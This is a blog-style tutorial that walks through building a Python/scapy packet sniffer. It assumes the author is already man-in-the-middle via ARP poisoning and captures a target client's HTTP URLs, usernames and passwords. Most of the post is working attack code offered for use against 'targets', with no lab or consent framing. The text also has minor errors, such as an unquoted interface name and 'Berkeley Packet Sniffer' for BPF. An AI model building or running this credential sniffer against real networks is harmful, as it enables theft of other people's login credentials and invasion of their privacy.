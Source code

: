 ```yaml
---
layout: post
title:  The Process of Building a Packet Sniffer Tool
date:   2019-03-22
tags: Computer Science
author: "Aaron John"
---
```


In this documentation, I will go through the process on how to write a Packet Sniffer tool in Python which can sniff (capture) data flowing through an interface, filter this data, and display information on terminal like: visited websites, usernames, passwords, images and files downloaded.

Here, in order to capture data, you would need to already be the MITM (Man In The Middle) by using ARP table poisoning, or via any other method. For this tool we will be using the module scapy. To install scapy do the following.
```python
pip install scapy
pip install scapy_http
```
Note: scappy http module is used to filter for the HTTP layer. For this tool, we will build a packet sniffer that analyzes what HTTP website the client requests, and if they type in any username or password on that specific website, we will capture that data and print it out on our terminal.

1. In order to sniff data that is being sent to or from one of our computer interfaces, we will use a function called sniff that comes in the module scapy, but before we can use it let's import all the necessary libraries.
    ```python
    #!/usr/bin/env python
    import scapy.all as scapy
    from scapy.layers import http
    ```

2. Next, let's create a function called sniff() where we will pass in the interface. This interface will be the interface that we will be sniffing (capturing) data from. Here, "iface" means to specify the interface that is to be sniffed. "Store" is to tell scapy not to store packets in memory, hence it doesn't cause too much pressure on the computer. The "prn" argument allows us to specify a call back function, where this function will be called every time the sniff() function captures a packet.
    ```python
    def sniff(interface):
        scapy.sniff(iface=interface, store=False, prn=process_sniffed_pakcet)
    ```

3. After sniffing the data, next, we will write a function to capture the URL requested by the target client. Here, we are extracting data from a specific layer. For this we will use the [BPF (Berkeley Packet Sniffer)](http://biot.com/capstats/bpf.html) syntax. Since web browsers use the HTTP layer, we will look into the packet to see if it has a layer of HTTP request, and if it does, then we will return that packet. So, in order to extract the URL visited by the user, we will use the HTTP request layer which contains the information of the visited/requested web page. Here, "Host" contains the first part of the URL and "Path" contains the rest of the URL. (Note: if you do print(packet.show) you will be shown all the layers in the packet and the fields that are set in this packet. But beware it can get very messy and untidy. The reason of printing packet.show is so that we can find out which layer contains the information we are looking for.)
    ```python
    def get_url(packet):
        return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
    ```

4. Next, we will write a function to capture login information, such as username and password that is entered into the website by the target client. After some search/analyze through packet.show output I noticed that there is a layer called "Raw" which contains all the information of the packets, and I noticed that we would only need the load field. Hence, the following code. Here, to find whether a specific element substring is contained in load, we will create a list of keywords.
    ```python
    def get_login_info(packet):
        if packet.haslayer(scapy.Raw):
            load = packet[scapy.Raw].load
            keywords = ["username", "user", "password", "pass"]
            for keyword in keywords:
                if keyword in load:
                    return load
    ```

5. Next, we will write the callback function which we specified in step 2. This function will be called every time the sniff() function captures a packet. Here, we will call the get_url function from step 3 to get URL requested by the target client and we will print the information out on terminal. Also, we will call the get_login_info function from step 4 to get the login information entered by the target client and we will print it out to terminal. (Note: here, I have used "\n\n" in the print statement, so that when it shows up on terminal, the print statement will be easier to find.)
    ```python
    def process_sniffed_pakcet(packet):
        if packet.haslayer(http.HTTPRequest):
            url = get_url(packet)
            print("[+] HTTP Request >> " + url)

            login_info = get_login_info(packet)
            if login_info:
                print("\n\n[+] Possible Username/Password >> " + login_info + "\n\n")
    ```

6. Finally, we will call the sniff function and pass in the specific interface that is to be sniffed. The specified interface needs to have packets flowing through it. For example, this is achieved after a target Client and Access Point have been ARP spoofed, causing packets to redirect flow of packets through the interface that is used to spoof.
    ```python
    sniff(eth0)
    ```

7. Now, we have a fully working Packet Sniffer tool which can help us see URLs, usernames and passwords sent by the target. If you get stuck in the process or have any questions, leave a comment down below and I will be happy to answer them.
